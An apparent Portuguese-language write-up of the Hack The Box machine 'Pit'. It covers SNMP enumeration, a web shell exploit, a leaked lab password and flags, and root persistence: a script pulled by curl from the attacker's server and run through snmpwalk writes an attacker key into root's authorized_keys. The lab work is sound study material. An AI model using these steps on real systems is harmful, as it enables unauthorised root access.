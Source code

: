 # Pit

---

## Enum

---

```python
nmap -T4 -p- -A 10.10.10.241
```

![mclovin](https://user-images.githubusercontent.com/69881757/126364288-bdea78e8-cd22-49f1-b365-7447f877fb6b.png)


- Fazendo a resolução de DNS:

```python
echo "10.10.10.241 pit.htb dms-pit.htb" > /etc/hosts
```

- Agora já sabemos que existem 2 portas udp rodando SNMP:

    ![Untitled](https://user-images.githubusercontent.com/69881757/126364336-59a0f389-2513-4d88-b07f-31c109edf649.png)


    - Procuramos na internet scripts no github que exploram os datas do SNMP:

    [https://github.com/dheiland-r7/snmp](https://github.com/dheiland-r7/snmp)

    ```python
    perl snmpbw.pl pit.htb public 2 1
    ```

---

### Exploration

---

- Entrando podemos enviar um arquivo pra dentro da máquina:
    - Dentro do sistema vai estar exposto a versão do software: 5.1.10, que tem uma webshell pra exploração da falha!
- Procurando pela webshell no `searchsploit`

![backdoor](https://user-images.githubusercontent.com/69881757/126364370-1825b731-22c2-4c88-8630-9352b38bbed0.png)


Rodando esses passos e explorando os diretórios descobrimos que existe um arquivo chamado:

../../../conf/settings.xml

- Dentro deste arquivo podemos encontrar uma página em branco porém com informações na sua source page:

    ![burp](https://user-images.githubusercontent.com/69881757/126364416-7a68725b-c0c2-4af6-a940-2fac3f845c63.png)


    - Senha login → michelle: ied^ieY6xoquu

Agora voltando para `http://pit.htb:9090`

Colocando essas credenciais conseguimos encontrar um painel de login:

![login-sistema](https://user-images.githubusercontent.com/69881757/126364435-8b5a644f-bd34-4acf-bd95-5537e57f4b4c.png)


![reverse](https://user-images.githubusercontent.com/69881757/126364464-5e607eb0-ee14-4e57-aad6-c36d9e90381c.png)


User Flag: be77b070e8e1ac7ac499d1412670d215

---

cd /usr/local/monitoring

- Precisamos agora criar uma RSA_Id

```python
ssh-keygen
// colocamos um nome
```

- Criamos um arquivo `[keytosend.sh](http://keytosend.sh)` que terá dentro :

```python
echo "RSA_ID_PUB" > /root/.ssh/authorized_keys
```

- Agora abrimos um servidor em python dentro da pasta na nossa máquina:

```python
python -m SimpleHTTPServer PORT
```

- E rodamos um curl dentro da máquina da vitima:

```python
curl [http://10.10.14.33](http://10.10.14.33):PORT/[keytosend.sh](http://keytosend.sh) -o check.sh 
```

- Precisamos garantir que está no /usr/local/monitoring
    - Ou então dar um :

    ```python
    cp check.sh /usr/local/monitoring 
    ```

![curl](https://user-images.githubusercontent.com/69881757/126364509-533bae40-e5d0-4340-a909-849ed8cb17f0.png)


- Para que esse arquivo seja rodado na máquina precisamos rodar :

```python
snmpwalk -v 1 -c public pit.htb 1.3.6.1.4.1.8072.1.3.2.2.1.2 
```

![snmpwalk](https://user-images.githubusercontent.com/69881757/126364527-f31e07aa-738a-45f9-8c26-76f6e1e79c9e.png)


- ou então :

```python
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects 
```

![snmpwalk2](https://user-images.githubusercontent.com/69881757/126364579-1a6df957-5e9b-4f17-bd97-83fe6526e759.png)


- Por fim

```python
ssh -i id_rsa root@pit.htb
```

Root Flag: f35dad39922ce883a572c057f672bbd8

Mas afinal , por que teria que rodar esses comandos ? executariamos esses comandos , pois na maquina tem um script aonde pega todos os scripts em bash dentro do diretorio -> /usr/local/monitoring e os executa, então essa seria a resposta!

---

